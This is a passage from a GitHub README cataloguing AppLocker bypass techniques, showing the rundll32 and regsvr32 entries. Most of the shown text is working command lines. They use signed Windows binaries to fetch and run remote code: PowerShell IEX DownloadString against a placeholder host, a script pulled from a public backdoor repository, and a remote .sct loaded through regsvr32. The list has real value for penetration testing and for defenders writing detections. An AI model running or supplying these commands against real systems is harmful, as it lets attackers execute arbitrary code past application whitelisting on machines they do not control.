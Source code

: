 # Ultimate AppLocker ByPass List
The goal of this repository is to document the most common techniques to bypass AppLocker. 
This README file contains a complete list of all known bypasses.
Since AppLocker can be configured in different ways it makes sense to have master list of bypasses. 
This README.MD will be the master and will be updated with known and possible AppLocker bypasses.

**I have created a list of verified bypasses that works against the default rules created with AppLocker.**

For details on how I verified and how to create the default rules you can check my blog: 
https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/  

[VerifiedBypasses-DefaultRules.MD](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedBypasses-DefaultRules.md)


Please contribute and do point out errors or resources I have forgotten.




## 1. Rundll32.exe

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"`

`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");`

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}`

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")`

`rundll32 shell32.dll,Control_RunDLL payload.dll`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: No  

Notes:

Links:  
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md



## 2. Regsvr32.exe

`regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: No  
